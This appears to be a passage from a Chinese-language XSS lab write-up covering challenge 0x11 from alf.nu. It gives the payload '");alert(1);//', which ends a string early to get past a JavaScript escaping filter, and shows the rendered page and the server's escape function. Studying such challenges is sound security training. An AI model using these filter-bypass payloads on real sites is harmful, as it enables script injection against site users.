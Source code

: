 



## 0x11——分号提前结束赋值语句绕过log、【转义//】过滤

```
");alert(1);//
```

![image-20220116115341167](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/02%20XSS%E9%9D%B6%E5%9C%BA.assets/image-20220116115341167.png)

```
[html]
<script>
  var url = 'javascript:console.log("\");alert(1);\/\/")'
  var a = document.createElement('a')
  a.href = url
  document.body.appendChild(a)
  a.click()
</script>

[server code]
// from alf.nu
function render (s) {
  function escapeJs (s) {
    return String(s)
            .replace(/\\/g, '\\\\')
            .replace(/'/g, '\\\'')
            .replace(/"/g, '\\"')
            .replace(/`/g, '\\`')
            .replace(/</g, '\\74')
            .replace(/>/g, '\\76')
            .replace(/\//g, '\\/')
            .replace(/\n/g, '\\n')
            .replace(/\r/g, '\\r')
            .replace(/\t/g, '\\t')
            .replace(/\f/g, '\\f')
            .replace(/\v/g, '\\v')
            // .replace(/\b/g, '\\b')
            .replace(/\0/g, '\\0')
  }
  s = escapeJs(s)
  return `
<script>
  var url = 'javascript:console.log("${s}")'
  var a = document.createElement('a')
  a.href = url
  document.body.appendChild(a)
  a.click()
</script>
```